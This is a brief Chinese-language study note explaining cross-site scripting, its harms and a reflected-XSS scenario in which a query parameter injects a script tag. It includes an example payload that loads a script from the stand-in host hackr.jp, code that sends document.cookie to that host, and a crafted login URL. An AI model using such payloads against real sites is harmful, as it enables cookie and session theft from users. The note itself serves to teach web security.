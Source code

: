 #### 跨站脚本攻击： Cross -Site Scripting   XSS 

利用用户的浏览器运行非法的HTML标签或JavaScript进行的一种攻击

##### 危害

- 利用虚假输入表单骗取用户个人信息
- 利用脚本窃取用户的Cookie值，被害人在不知情的情况下，帮助攻击者发送恶意请求
- 显示伪造的文章或图片

##### 案例

- 在动态生成HTML处发生

  再输入框内填入HTMl标签或者script标签

- XSS 是攻击者利用预先设置的陷阱触发的被动攻击

  场景： 某个网站通过地址栏中URI的查询字段ID，实现表单的自动填写字符串功能

如果ID=拼接一个带有script标签的字符串，表单自动填写的时候就会执行， 就可以盗取你的个人信息

- 对用户的Cookie进行窃取

```react
<script src=http://hackr.jp/xss.js></script>
```

```react
// xss.js
var content = escape(document.cookie);
document.write("<img src=http：//hackr.jp/?");
document.write(content)
document.write(">")
```

地址栏：

http://example.jp/login?ID="><script src=http://hackr.jp/xss.js></script>"



